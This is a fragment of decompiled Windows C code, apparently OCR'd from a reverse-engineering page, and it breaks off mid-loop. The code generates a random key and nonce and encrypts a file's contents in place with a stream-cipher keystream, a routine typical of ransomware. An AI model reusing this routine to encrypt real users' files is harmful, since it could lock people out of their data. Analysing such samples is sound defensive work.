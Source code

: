     _BYTE *v16; // ecx
    char v17; // al
    HANDLE hFile; // [esp+Ch] [ebp-CCh]
    signed int v19; // [esp+10h] [ebp-C8h]
    char *v20; // [esp+14h] [ebp-C4h]
    _BYTE *_file_write; // [esp+18h] [ebp-C0h]
    char *v22; // [esp+1Ch] [ebp-BCh]
    DWORD NumberOfBytesWritten; // [esp+20h] [ebp-B8h] BYREF
    DWORD NumberOfBytesRead; // [esp+24h] [ebp-B4h] BYREF
    char v25[48]; // [esp+28h] [ebp-B0h] BYREF
    int v26; // [esp+58h] [ebp-80h]
    char v27[64]; // [esp+68h] [ebp-70h] BYREF
    char key[32]; // [esp+A8h] [ebp-30h] BYREF
    unsigned __int8 nounce[12]; // [esp+C8h] [ebp-10h] BYREF

    LibraryA = LoadLibraryA("advapi32.dll");
    SystemFunction036 = (BOOLEAN (__stdcall *)(PVOID, ULONG))GetProcAddress(LibraryA, "SystemFunction036");
    SystemFunction036(key, 32);
    v5 = LoadLibraryA("advapi32.dll");
    ProcAddress = (BOOLEAN (__stdcall *)(PVOID, ULONG))GetProcAddress(v5, "SystemFunction036");
    ProcAddress(nounce, 12);
    FileW = CreateFileW(FileName, 0xC0000000, 0, 0, 3u, 0x80u, 0);
    v8 = FileW;
    hFile = FileW;
    if ( FileW == (HANDLE)-1 )
    {
        print("Cannot Open File");
        CloseHandle((HANDLE)0xFFFFFFFF);
        return 1;
    }
    else
    {
        FileSize = GetFileSize(FileW, 0);
        v19 = FileSize;
        v20 = (char *)malloc(FileSize);
        if ( ReadFile(v8, v20, FileSize, &NumberOfBytesRead, 0) )
        {
        file_write = malloc(FileSize);
        _file_write = file_write;
        sub_4F13D0(v25, (unsigned __int8 *)key, v12, nounce);
        v13 = 0;
        if ( FileSize > 0 )
        {
            v22 = v27;
            do
            {
            sub_4F1000((__m128i *)v25, (int)v27);
            ++v26;
            v14 = v13 + 64;
            if ( !__OFSUB__(v13, v13 + 64) )
            {
                v15 = _file_write;
                do
                {
                if ( v13 >= FileSize )
                    break;
                v16 = &v15[v13];
                v17 = v22[v13] ^ v15[v13 + v20 - _file_write];
                ++v13;
                FileSize = v19;
                *v16 = v17;
                v15 = _file_write;
                }